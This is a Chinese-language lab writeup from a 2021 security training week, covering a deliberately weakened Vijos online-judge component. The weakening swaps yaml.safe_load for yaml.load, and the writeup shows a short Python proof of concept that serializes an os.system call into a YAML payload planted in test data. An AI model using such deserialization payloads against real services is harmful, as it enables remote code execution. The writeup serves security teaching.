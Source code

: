 ```yaml
---
title: Tencent Spark Program 2021
date: 2021-08-19 10:38:00
category: Project Writeup
tags: 
    - Spark Program
---
```


引言：如今，几乎所有的智能产品或多或少都离不开计算机的发展，计算机安全也渗入进生活的方方面面，大到网站Web服务器，小到手机App和家用路由器。挑战周的挑战项目由Web安全开始，逐渐向二进制安全，逆向安全推进。

![20a77740fa52aabce522ac90e71e886](assets/20a77740fa52aabce522ac90e71e886.jpg)

声明：挑战周内使用的Web组件和评测机组件均来自开源OJ (Online Judge)组件：[Vijos/vj4](https://github.com/vijos/vj4), [Vijos/jd4](https://github.com/vijos/jd4)。原组件经过多次迭代没有漏洞产生，导师通过修改jd4的源代码暴露漏洞供挑战周使用。漏洞复现所使用的安卓Chrome漏洞和路由器固件漏洞 ([CVE-2018-8879](https://nvd.nist.gov/vuln/detail/CVE-2018-8879)) 厂商均已修复，请及时更新App或固件。

如对文档有任何疑问，请联系E-mail：ThomasonZhao@qq.com

## Vijos OJ评测机之yaml反序列化

挑战背景：VIJOS是一个安全的OJ系统。这可能主要得益于开发者也是CTF选手。

![img](assets/clip_image002.jpg)

不过，并不是所有OJ的开发者都了解安全技术。本题目使用的VIJOS就是一个不懂安全的开发者开发的，他在开发过程中犯了一个很小安全错误，然而，这个安全错误却导致OJ被完全攻陷，你能找到这个安全错误，并利用它攻陷OJ吗？

代码审计：使用 `git stutus` 和 `git diff` 查看相关代码更改，发现只更改了一行代码，从使用 `safe_load()` 函数更改为 `load()`。

>   `yaml.load` accepts a byte string, a Unicode string, an open binary file object, or an open text file object. A byte string or a file must be encoded with *utf-8*, *utf-16-be* or *utf-16-le* encoding. `yaml.load` detects the encoding by checking the *BOM* (byte order mark) sequence at the beginning of the string/file. If no *BOM* is present, the *utf-8* encoding is assumed.
>
>   `yaml.load` returns a Python object.
>
>   Note that the ability to construct an arbitrary Python object may be dangerous if you receive a YAML document from an untrusted source such as the Internet. The function `yaml.safe_load` limits this ability to simple Python objects like integers or lists.

![image-20210813141927044](assets/image-20210813141927044.png)

漏洞详情：此处产生的是Pyyaml反序列化漏洞 ([CVE-2019-20477](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/#:~:text=%5BCVE-2019-20477%5D-%200Day%20YAML%20Deserialization%20Attack%20on%20PyYAML%20version,...%206%20YAML%20Deserialization%207%20YAML%20Deserialization.%20)) 。根据反序列化原理编写payload，追加到作为测试数据的文件压缩包内。

```python
import yaml
import os


class Payload(object):
    def __reduce__(self):
        return (os.system,('ls',))


serialized_data = yaml.dump(Payload())  # serializing data

print(serialized_data)
---------------------------------------
!!python/object/apply:nt.system [ls]
```
